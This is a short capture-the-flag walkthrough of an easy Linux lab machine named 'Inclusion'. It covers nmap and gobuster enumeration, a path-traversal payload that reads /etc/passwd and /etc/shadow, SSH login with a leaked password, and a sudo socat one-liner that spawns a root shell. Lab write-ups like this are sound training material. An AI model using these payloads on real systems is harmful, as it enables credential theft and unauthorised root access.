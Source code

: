 # Inclusion - Linux - Easy
---

## Enumeration

### nmap: `nmap -sV 10.10.108.241 -oN nmap-scan`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Gobuster: `gobuster dir -u http://10.10.108.241 -w ../wordlist_common.txt -o gobuster-scan`

```bash
/article              (Status: 500) [Size: 290]
```

### Manual enumeration

Going through website it seems all the articles stem from page *article* with parameter as *name*

Checking for */etc/passwd* reveals the data in the file: `http://10.10.108.241/article?name=../../../../../etc/passwd`

*Interesting find: /etc/shadow file is also readable by using the LFI not sure if it was intended that way cause I never used it for anything.*

## User.txt

Someone just left the password in plain text for user *falconfeast* in passwd file in comments. Use that to connect to ssh on the machine and just `cat` the *user.txt*.

## Root.txt

Executing `sudo -l` reveals the following:

```bash
User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

Executing `sudo /usr/bin/socat stdin exec:/bin/sh` *(got from [gftobins](https://gtfobins.github.io/gtfobins/socat/))* to get root user access on machine.

Just `cat` the flag file located at */root/root.txt* to get the root flag.
